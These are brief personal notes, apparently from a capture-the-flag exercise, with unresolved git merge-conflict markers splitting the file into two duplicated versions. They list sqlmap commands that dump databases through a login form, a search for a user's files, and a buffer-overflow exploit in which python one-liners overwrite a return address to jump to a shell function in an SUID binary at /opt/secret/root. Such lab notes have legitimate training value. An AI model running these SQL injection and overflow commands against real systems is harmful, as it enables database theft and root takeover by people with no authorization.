 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin"  -> to get the data from the dbs

--dbs -> to get info about databases
-D databasename --tables -> to get tables in that database
-D databasename -T tablename --dump -> dump data from the table

check /etc/passwd to check whether there are accounts 

cd /
find / -user pingu 2>/dev/null

<<<<<<< HEAD
_use this to investigate ELF executable files_
readelf -s filename - to read the symbols(read the address for shell function)

_use this code for cyclic_
#!/bin/python3
from pwnlib.util.cyclic import cyclic_gen
g = cyclic_gen()
print(g.get(50))

_check using cyclic output_
echo -ne "aabaskj" | ./filename -> entering cyclic pattern into the binary file to see where the crash is
dmesg -> see where it crashed
readelf -s filename | grep shell -> to get the shell function address

_inject code_
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'


=======
_suid file_
/opt/secret/root

gdb /opt/secret/root
r < <(cyclic 50)
cyclic -l 0x6161616c

python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
>>>>>>> f78641a607138374ea5e6285af9a446f9ac414c4
